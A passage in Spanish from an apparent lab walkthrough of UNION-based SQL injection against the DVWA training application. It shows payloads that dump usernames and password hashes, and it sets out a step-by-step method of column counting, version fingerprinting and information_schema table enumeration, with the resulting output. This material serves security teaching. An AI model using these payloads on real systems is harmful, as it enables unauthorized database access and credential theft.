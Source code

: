 Esto viene dado porque en la sentencia original sólamente se muestran dos columnas, por lo que no podemos unir nuestra sentencia si no tiene exactamente dos columnas:

```sql
' or 0=1 UNION SELECT user,password FROM dvwa.users #
```

Una vez corregida, sólamente nos queda ejecutar la sentencia:

        ID: ' or 0=1 UNION SELECT user,password FROM dvwa.users #
        First name: admin
        Surname: 5f4dcc3b5aa765d61d8327deb882cf99

        ID: ' or 0=1 UNION SELECT user,password FROM dvwa.users #
        First name: gordonb
        Surname: e99a18c428cb38d5f260853678922e03

        ID: ' or 0=1 UNION SELECT user,password FROM dvwa.users #
        First name: 1337
        Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

        ID: ' or 0=1 UNION SELECT user,password FROM dvwa.users #
        First name: pablo
        Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

        ID: ' or 0=1 UNION SELECT user,password FROM dvwa.users #
        First name: smithy
        Surname: 5f4dcc3b5aa765d61d8327deb882cf99

Como podemos observar, ya tenemos acceso a la información de la base de datos.

En mi caso ya sabía qué podía obtener de la base de datos, pero aquí dejo mi procedimiento estándar para realizar este tipo de ataques:

- Para saber cuántas columnas puedo mostrar, realizo el comando `1 order by XXX #` hasta que de error, donde `XXX` es un número que empieza en 1 y voy incrementando en cada petición.

- Una vez sepa cuántas columnas puedo mostrar,
realizo el comando `' or 0=1 union all select XXX #`, donde `XXX` es la sucesión de columnas válidas (en este ejemplo sería `1,2` dado que sólo tenemos dos columnas).

- Para obtener la versión de la base de datos, reemplazo uno de los números por `@@version` o `version()`. SQL: `' or 0=1 union all select @@version,version() #`

        ID: ' or 0=1 union all select @@version,version() #
        First name: 5.1.65-community-log
        Surname: 5.1.65-community-log

- Si la base de datos es MySQL < 5, entonces trato de adivinar el nombre de las tablas.

- Si la base de datos es MySQL >= 5, entonces miro la información alojada en `information_schema` mediante el comando:

```sql
' or 0=1 union all select 1,table_name from information_schema.tables #
```

        ID: ' or 0=1 union all select 1,table_name from information_schema.tables #
        First name: 1
        Surname: CHARACTER_SETS
